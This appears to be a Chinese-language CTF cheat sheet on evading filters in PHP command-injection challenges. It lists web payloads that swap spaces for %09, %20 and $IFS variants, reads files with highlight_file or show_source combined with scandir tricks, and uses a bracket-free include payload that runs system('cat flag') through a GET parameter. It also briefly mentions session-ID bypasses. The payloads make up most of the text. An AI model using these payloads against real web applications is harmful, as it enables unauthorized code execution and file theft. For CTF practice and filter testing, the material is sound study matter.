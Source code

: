 可以用%09代替，本质上是tab符号的url编码

```php
?c=print_r(`tac%09f*`);
```

有时可以尝试%20代替，%20是空格的url编码，但过滤空格可能无法使用

```php
?c=print_r(`tac%20f*`);
```

此外，还可以代替空格的有：

```shell
$IFS$9（使用时要加转义符号）、${IFS}、$IFS%09、<、<> 
// 这些都是在linux shell下可以达到空格的效果
// $IFS在Linux中默认是空格、分隔的字符
```

等等，看情况使用。

无空格方式直接读取文件还有以下方式：

```php
highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
// next是当前指针的下一个，也就是第二个。
// current是当前指针的这个元素。即数组的第一个元素。
// end最后一个元素
// 这里这样用是因为他是倒数第二个。
```

或

```php
show_source(next(array_reverse(scandir(pos(localeconv())))));
```

本质上是使用php本身的函数来直接读取文件。

### 括号绕过

比如可以使用include()函数。

include()函数的作用是，包含并运行指定文件。

因此可以包含一个文件流即可读取到文件。

include()和require()函数类似，但include()包含的文件不存在时，抛出警告，而require()会产生错误。

include可以不需要空格和任何括号。

payload:

```php
?c=include$_GET[1]?>&1=system("cat flag");
```

### session绕过

在浏览器中修改PHPSESSID的值，然后读取此值，并执行。
